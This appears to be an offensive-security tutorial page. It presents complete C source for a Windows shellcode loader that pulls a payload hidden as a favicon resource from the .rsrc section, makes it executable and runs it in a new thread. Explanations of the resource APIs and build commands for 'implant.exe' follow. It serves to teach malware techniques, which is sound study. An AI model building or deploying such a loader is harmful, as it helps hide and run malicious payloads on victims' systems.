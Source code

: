 
Code Snippet
```c
/*
 storing payload in .rsrc section
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;  
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// Launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
#### Retrieving payload from .rsrc algorithm (C-like pseudo-code)

```c
// 1. find the resource in .rsrc section containing payload 
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA)

// 2. load the resource from .rsrc section
resHandle = LoadResource(NULL, res)

// 3. get a pointer to the loaded resource
payload = (char *) LockResource(resHandle);

// 4. get the size of the resource/payload
payload_len = SizeofResource(NULL, res)
```

---

[**_FindResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) determines the location of a resource with the specified type and name in the specified module (executable file or DLL). This function can be found in the _kernel32.dll_ library.

`FindResource()` function has the following prototype:
```c
HRSRC FindResource(
  HMODULE hModule,   // handle to the module containing the resource. If NULL, the function searches the module used to create the current process
  LPCTSTR lpName,    // name of the resource. Also, this parameter can be MAKEINTRESOURCE(ID), where ID is the integer identifier of the resource
  LPCTSTR lpType     // resource type, ex. RT_BITMAP, RT_ICON, RT_RCDATA, etc.
);
```

**Return value**
If the function succeeds, the return value is a handle to the specified resource's information block. Otherwise, the return value is `NULL`.

---

[**_LoadResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) is used to load a resource from the module's resource section. This function can be found in the _kernel32.dll_ library.

`LoadResource()` function has the following prototype:

```c
HGLOBAL LoadResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is a handle to the data associated with the resource. Otherwise, the return value is `NULL`.

---

[**_LockResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) is used to obtain a pointer to the data associated with a resource. This function can be found in the _kernel32.dll_ library.

`LockResource()` function has the following prototype:
```c
LPVOID LockResource(
  HGLOBAL hResData    // handle to the resource to be accessed (from LoadResource() function)
);
```

**Return value**

If the loaded resource is available, the return value is a pointer to the first byte of the resource; otherwise, it is `NULL`.

---

[**_SizeofResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) is used to retrieve the size (in bytes) of a resource. This function can be found in the _kernel32.dll_ library.

`SizeofResource()` function has the following prototype:
```c
DWORD SizeofResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is the number of bytes in the resource. Otherwise, the return value is zero.

#### Compiling

```powershell
rc.exe resources.rc
cvtres.exe /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

In Windows, `rc.exe` and `cvtres.exe` are two command-line tools used in the process of building Windows applications. They are part of the Microsoft Visual Studio toolset.

1. [**_Resource Compiler_**](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-compiler): `rc.exe` is a special resource compiler in Windows. It is used to compile resource script files (with a _.rc_ extension) into binary resource files (with a _.res_ extension). Resource script files contain resources such as icons, bitmaps, dialog boxes, menus, strings, version information, etc., that are used in Windows applications.
    
2. **_Resource Converter_**: `cvtres.exe` is used to convert resource files from an older format (usually _.res_ files) to the newer _.coff_ format (Microsoft's Common Object File). This conversion is necessary for compatibility with modern development tools and linkers. `cvtres.exe` is typically invoked during the build process after resource files are compiled with `rc.exe`.